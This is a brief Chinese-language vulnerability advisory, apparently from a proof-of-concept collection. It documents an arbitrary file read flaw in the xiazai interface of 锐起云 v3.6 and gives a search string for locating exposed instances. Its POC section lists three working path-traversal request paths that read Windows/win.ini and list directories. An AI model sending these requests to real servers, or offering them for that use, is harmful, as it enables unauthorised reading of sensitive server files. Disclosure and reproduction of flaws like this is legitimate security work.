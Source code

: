 # 锐起云 xiazai 任意文件读取漏洞

## 漏洞描述

锐起云 xiazai 接口存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器中的敏感文件

## 漏洞影响

<a-checkbox checked>锐起云 v3.6</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"锐起云"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1692239495468-467f771d-6d80-4a09-b9a0-b2bfd3f617ab.png)

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1692264395187-adcf551b-bc30-496e-925b-bd38a20716a1.png)

验证POC

```plain
/dwr/hret/fileTree?filePath=../
/dwr/srecy/xiazai?filePath=../../../../../../../../../../../Windows/win.ini
/dwr/hret/downfile?fpid=../../../../../../../../../Windows/win.ini 
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1692264749738-c04d5539-ac64-4ffe-b790-62db0da31ba1.png)